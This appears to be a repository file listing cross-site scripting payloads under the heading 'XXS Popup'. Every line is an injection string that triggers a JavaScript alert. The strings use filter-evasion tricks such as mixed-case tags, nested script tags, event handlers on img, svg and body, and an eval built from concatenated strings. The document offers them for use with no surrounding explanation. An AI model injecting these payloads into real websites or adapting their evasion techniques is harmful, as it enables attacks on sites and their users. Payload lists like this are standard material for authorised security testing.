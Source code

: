 # Payloads
## XXS Popup:
<script>alert("XSS");</script>
<script>alert(‘XSS’);</script>
<script>alert(‘XSS’)</script>
<<script>alert("XSS");//<</script>
<sCripT>alert("XSS")</scRipt>
<scr<script>ipt>alert('XSS')</script>
<sCripT>alert('XSS')</scRipt>
<img src="/" onerror="alert('XSS')"/>
<img src=x onMouseOver=alert('XSS')>
<svg/onload=eval("ale"+"rt")(`XSS${alert`XSS`}`)>
<img src='nevermind' onerror="alert('XSS');" />
<< script>alert("XSS");//<</ script>
<svg/onload=alert('XSS')>
div.innerHTML = '<script deferred>alert("XSS");</script>';
<img src="aaa" onerror=alert('xxs')>
<body onload="alert('XSS')">
